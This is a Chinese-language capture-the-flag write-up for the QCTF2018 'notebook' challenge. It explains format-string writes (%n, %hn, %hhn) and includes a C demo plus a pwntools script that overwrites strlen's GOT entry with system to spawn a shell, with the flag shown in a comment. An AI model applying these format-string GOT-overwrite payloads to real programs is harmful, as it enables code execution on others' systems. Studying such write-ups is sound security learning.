 # QCTF2018 notebook
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题就是字符串格式化漏洞，常规操作我就不说了，有两点要知道就是：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>1.**n是改四个字节，hn改两个字节，hhn改一个字节**，所以可以利用这点修改got表为system函数的got表；</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>2.**32位中printf的format里从esp开始的第1个（从0开始数）四个字节为1$，sprintf的第2个为1$**。64位的位置可调试得出，跟32位不一样因为传参规则不同。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我写了一个demo来表示这题的利用思路，也方便日后复习了，至于这题的脚本[从这](http://invicsfate.cc/2018/07/16/QCTF-xman/)搬运。</font></br>

demo
=========

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

//got address:
//system 0x804a018
//puts   0x804a014

char buf[0x100]={0,};
unsigned int pri_addr=0x804a014;
char* bin="/bin/sh\0";
char* string="%%1$176s%%15$hhn";

int main()
{
	char* ptr=string;
	char BUF[0x100];
	char format[0x20];
	char* string="aaaaaaaa";

	*(unsigned int*)format=pri_addr;

	system("sleep 0.1");
	for(int i=4;i<32;i++)
	  format[i]=*ptr++;
	
	sprintf(BUF,format,string);
	printf(BUF);

	memcpy(buf,bin,8);
	puts(buf);
    //题中可以利用strlen(buf)来getshell。也就是修改strlen的got表。

	return 0;
}
```

Exploit
======

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
#Author:Invicsfate

from pwn import *

# 更正思路,修改strlen函数got表->system，输入/bin/sh，直接调用
# 0x0804A038 -> 080485C0
# payload1 = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"
# payload2 = "2222"+"%%17$hhn"+p32(0x0804A03A)+"%%20$hhn"+p32(0x0804A03B)+"%%119c"+"22"+"%%25$hhn"+p32(0x0804A039)+"222"+"%%52c"+"%%30$hhn"+p32(0x0804A038)+"%10c"
# QCTF{f0rmat_s7r1ng_is_happy_}

def pwnIt():
	p = process("./notebook")
#	gdb.attach(p)
	p.recvuntil("May I have your name?\n")
	payload = p32(0x0804A03A)+"%%14$hhn%%4c%%20$hhn"+p32(0x0804A03B)+"22%%119c%%25$hhn"+p32(0x0804A039)+"%%55c%%30$hhn222"+p32(0x0804A038)+"%11c"			p.sendline(payload)
	p.recvuntil("on the notebook?\n")
	p.sendline("/bin/sh\x00")
	p.interactive()


if __name__=="__main__":
	pwnIt()
```
